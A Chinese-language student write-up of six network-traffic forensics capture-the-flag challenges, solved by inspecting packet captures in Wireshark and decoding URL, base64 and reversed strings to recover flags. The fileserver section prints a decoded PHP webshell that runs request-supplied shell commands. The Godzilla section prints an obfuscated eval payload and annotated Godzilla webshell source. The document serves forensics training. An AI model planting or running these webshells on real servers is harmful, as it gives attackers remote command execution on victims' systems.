


# 流量分析报告：
1. PASS  
使用wireshark打开文件，查看流，发现字符串：%20%43%46%49%7b%31%6e%73%33%63%75%72%33%5f%6c%30%67%30%6e%7d%20  
猜测是URL编码后的POST；  
使用URL在线解码器解码得到flag：CFI{1ns3cur3_l0g0n}   
# 
2. backdoor  
使用wireshark打开文件，crtl+f搜索关键词flag和ls，  
在41中查找到flag，往下看有一串字符串ZmxhZ3s0NzlmOTY1OC05MzkyLTRhMGUtYjVjOC03M2JmNDhiNjRmM2R9Cg==  
猜测其为base64编码后的flag  
解码后可得flag{479f9658-9392-4a0e-b5c8-73bf48b64f3d}  
#
3.fileserver  
打开文件，一个一个地看流，在12号流中发现一个php脚本  
msg=%3C%3Fphp%20%24HaJQ7%3D%24_REQUEST%5B%27aW3b5h311%27%5D%3B%20%24result%3D%40shell_exec%28%27%2F%2AZP92mg11Ot%2A%2F%27.%24HaJQ7%27%2F%2AZP92mg11Ot%2A%2F%27%29%3B%20%24key%3D%27abcdef00123456789%27%3B%20%24result%3Dbase64_encode%28openssl_encrypt%28%24result%2C%20%27aes\-128\-ecb%27%2C%20%24key%2C%200%2C%20%27%27%29%29%3B%20echo%20%24result%3B%3F%3E（URL）  
使用在线解码工具解码得到    
msg=<?php $HaJQ7=$_REQUEST['aW3b5h311']; $result=@shell_exec('/*ZP92mg11Ot*/'.$HaJQ7.'/*ZP92mg11Ot*/'); $key='abcdef00123456789'; $result=base64_encode(openssl_encrypt($result, 'aes-128-ecb', $key, 0, '')); echo $result;?\>（URL）    
分析php中的内容不难得知该返回值经过需要执行base_64和ase-128-ecb（key=abcdef00123456789）的两次解密 
所以我们去找找返回值在哪  
最后在25号流中找到，Y2F0IGZsYWc=的解码结果是cat flag，返回值为SUtmNmJrTnp4anpUMlM4N2d1S2c2Z053RWoyUGF3bjh6a0hOR2NmSWlpST0=  
解密得到flag：flag{F1l3_S3rver_Ma5t3r!}
#
4.tmpshell
打开文件夹，追踪流，然后发现有许多的ls和cat flag，于是我们把目光投向返回的内容，对返回内容进行翻译后发现大部分内容都被转置了，于是转回来后进行翻译
得到目标字符串  d0lESWdBQ0lnQUNJZ0F5SUswd0lqTXlJak15SWpNeUlqTXlJak15SWpNeUlqTXlJak15SWpNeUlqTXlJak15SWpNeUlqTWlDTm9RRApqTXlJak15SWpNeUlqTXlJak15SWpNeUlqTXlJak15SWpNeUlqb1FEakFDSWdBQ0lnQUNJZ2dETTZFRE02QWpNZ0F6TXRNRE10RWpNCnQwU0x0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMdDBpQ05NeUlqTXlJak15SWpNeUkKNkFqTWdBek10TURNdEVqTXdJak8wZVo2MmVwNUswd0tyUVdZd1ZHZHY1RUl0QWlNMUF5ZGw1bUs2TTZqbGZwcW5yUUR0MFNMdDBTTAp0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMdDBTTHQwU0x0MFNMSzBBSWRaYXZvNzVtbHZsQ05NVE02RURNCnoweU13MFNNeUFqTTZRN2xwYjdsbXJRRHJzQ1poQlhaMDltVGcwQ0l5VURJM1ZtYnFvem9QVytscWV1Q04wU0x0MFNMdDBTTHQwU0wKc3hXWmxkMVY5MTNlN2QyWmhGR2JzWm1aZzBscDlpdW5iVytXZzBscDlpdW5iVytXZzBscDlpdW5iVytXSzB3TXhvVE13b0RNeUFDTQpETjBRRE4wUURsV2F6TlhNeDBXYmY5bFJHUkRORE4wYXJkMFJmOVZabDFXYndBRElkUmFtcERLaWx2RklkUmFtcERLaWx2VktwTTJZCj09UUloTTBRRE4wUQo=
再使用base64解密得到：  
wIDIgACIgACIgAyIK0wIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMiCNoQD
jMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjMyIjoQDjACIgACIgACIggDM6EDM6AjMgAzMtMDMtEjM
t0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0iCNMyIjMyIjMyIjMyI
6AjMgAzMtMDMtEjMwIjO0eZ62ep5K0wKrQWYwVGdv5EItAiM1Aydl5mK6M6jlfpqnrQDt0SLt0SL
t0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLK0AIdZavo75mlvlCNMTM6EDM
z0yMw0SMyAjM6Q7lpb7lmrQDrsCZhBXZ09mTg0CIyUDI3VmbqozoPW+lqeuCN0SLt0SLt0SLt0SL
sxWZld1V913e7d2ZhFGbsZmZg0lp9iunbW+Wg0lp9iunbW+Wg0lp9iunbW+WK0wMxoTMwoDMyACM
DN0QDN0QDlWazNXMx0Wbf9lRGRDNDN0ard0Rf9VZl1WbwADIdRampDKilvFIdRampDKilvVKpM2Y
==QIhM0QDN0Q  
再使用rev解密去重，得到flag：  
```
cc))[删除] [删除] 00mmee__GGkkCC44FF__mm11ssiiCCCCCCC0 20:01:13
[回车] [回车] [回车] ffllaagg{{}m------
窗口:*new 52 - Notepad++
时间:2021-03-30 20:###########
--------------------------------------------2
```
这是个什么玩意？我flag呢？  
猜测flag为flag{0me_GKC4F_m1sic}
#
5.Godzilla
打开文件，看看流， 
一共有79个流，其中有用的不多，发现出现最多的是nice=  
比如：  
nice=eval%28base64_decode%28strrev%28urldecode%28%27K0QfK0QfgACIgoQD9BCIgACIgACIK0wOpkXZrRCLhRXYkRCKlR2bj5WZ90VZtFmTkF2bslXYwRyWO9USTNVRT9FJgACIgACIgACIgACIK0wepU2csFmZ90TIpIybm5WSzNWazFmQ0V2ZiwSY0FGZkgycvBnc0NHKgYWagACIgACIgAiCNsXZzxWZ9BCIgAiCNsTK2EDLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKpkXZrRCLpEGdhRGJo4WdyBEKlR2bj5WZoUGZvNmbl9FN2U2chJGIvh2YlBCIgACIgACIK0wOpYTMsADLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKkF2bslXYwRCKsFmdllQCK0QfgACIgACIgAiCNsTK5V2akwCZh9Gb5FGckgSZk92YuVWPkF2bslXYwRCIgACIgACIgACIgAiCNsXKlNHbhZWP90TKi8mZul0cjl2chJEdldmIsQWYvxWehBHJoM3bwJHdzhCImlGIgACIgACIgoQD7kSeltGJs0VZtFmTkF2bslXYwRyWO9USTNVRT9FJoUGZvNmbl1DZh9Gb5FGckACIgACIgACIK0wepkSXl1WYORWYvxWehBHJb50TJN1UFN1XkgCdlN3cphCImlGIgACIK0wOpkXZrRCLp01czFGcksFVT9EUfRCKlR2bjVGZfRjNlNXYihSZk92YuVWPhRXYkRCIgACIK0wepkSXzNXYwRyWUN1TQ9FJoQXZzNXaoAiZppQD7cSY0IjM1EzY5EGOiBTZ2M2Mn0TeltGJK0wOnQWYvxWehB3J9UWbh5EZh9Gb5FGckoQD7cSelt2J9M3chBHJK0QfK0wOERCIuJXd0VmcgACIgoQD9BCIgAiCNszYk4VXpRyWERCI9ASXpRyWERCIgACIgACIgoQD70VNxYSMrkGJbtEJg0DIjRCIgACIgACIgoQD7BSKrsSaksTKERCKuVGbyR3c8kGJ7ATPpRCKy9mZgACIgoQD7lySkwCRkgSZk92YuVGIu9Wa0Nmb1ZmCNsTKwgyZulGdy9GclJ3Xy9mcyVGQK0wOpADK0lWbpx2Xl1Wa09FdlNHQK0wOpgCdyFGdz9lbvl2czV2cApQD%27%29%29%29%29%3B&key=DlMRWA1cL1gOVDc2MjRhRwZFEQ%3D%3D  
好吧看不懂了，然后我才Godzilla必有玄机，然后去搜索一下，发现这是一种非常强大的webshell的管理工具，对payload进行XOR加密后，再将密文进行base64编码，最后进行URL编码，再发给客户端  
如下就是一段哥斯拉工作原理的php代码
```
 <?php
 @session_start(); // 启动会话，@ 符号用于抑制可能出现的错误信息
 @set_time_limit(0); // 设置脚本执行时间不限制
 @error_reporting(0); // 设置错误报告级别为 0，即不报告任何错误
 function encode($D,$K){
     for($i=0;$i<strlen($D);$i++) {
         $c = $K[$i+1&15]; // 根据密钥中的字符来加密数据
         $D[$i] = $D[$i]^$c; // 使用异或操作进行加密
     }
     return $D; // 返回加密后的数据
 }
 $pass='key'; // 密钥参数名 客户端设置
 $payloadName='payload'; // 载荷参数名
 $key='3c6e0b8a9c15224a''; // 加密密钥
 if (isset($_POST[$pass])){ // 检查 POST 请求中是否包含了密钥参数 key
     $data=encode(base64_decode($_POST[$pass]),$key); // 解码并加密传入的数据
     if (isset($_SESSION[$payloadName])){ // 检查会话中是否存在载荷数据
         $payload=encode($_SESSION[$payloadName],$key); //解码 输出
         if (strpos($payload,"getBasicsInfo")===false){ // 检查载荷中是否包含指定字符串
             $payload=encode($payload,$key); // 判断是否被解码，如果否，解码
         }
         eval($payload); // 执行载荷中的 PHP 代码
         echo substr(md5($pass.$key),0,16); // 输出密钥的 MD5 前半部分
         echo base64_encode(encode(@run($data)/**这时候经过了gzip编码**/,$key)); // 对传入的数据运行，并将结果加密后输出
         echo substr(md5($pass.$key),16); // 输出密钥的 MD5 后半部分
     }else{
         if (strpos($data,"getBasicsInfo")!==false){ // 检查传入的数据中是否包含指定字符串
             $_SESSION[$payloadName]=encode($data,$key); // 将传入的数据加密后存入会话中
         }
     }
 }
 ```
按理来说，对于流里面的内容进行这样的解密就能得出答案，但是助教老哥叫我去搜索一下Godzilla，于是我找到了这样的蓝队工具箱，里面刚好有哥斯拉解密
于是...

解密返回包得到flag{G0dzi11a_15_N1c3!}
#
6. QRcode
用wireshark打开文件，导出了40*40份二维码尸块    
使用工具合成二维码   
  
按理来说这里要去修复二维码，于是我打开了一个二维码修复工具，但是它说没有识别到二维码，按寻思这么大一个二维码它凭什么识别不出来，于是我打开了自己的微信扫一扫，欸，一扫就扫出来了（需要通过晃动来修复二维码）

果然还是自己靠谱啊
flag{Qr_C0d3_15_s0_Fun!}